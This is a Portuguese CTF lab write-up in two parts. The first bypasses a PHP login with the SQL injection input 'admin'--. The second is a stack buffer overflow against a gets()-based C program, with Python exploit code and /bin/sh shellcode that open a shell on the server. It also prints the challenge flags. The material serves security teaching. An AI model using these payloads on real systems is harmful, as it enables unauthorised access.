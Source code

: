 # CTF 4

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.

![CTF 4 1](../img/ctf4task1.png)

## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 

![CTF 4 2 a](../img/ctf4task2a.png)

Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes: 100 bytes para atingir o máximo espaço de memória alocada em buffer e 12 bytes para dar overflow a 3 endereços:
- O endereço da variável passada à função printf;
- O frame-pointer de main;
- O endereço de retorno da main;

O exploit terá a seguinte estrutura:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main e o endereço do argumento de printf, que estão na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção dos valores originais torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/ExploitCTF2S8.py)), conseguimos abrir uma bash no servidor:

![CTF 4 2 b](../img/ctf4task2b.png)

Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.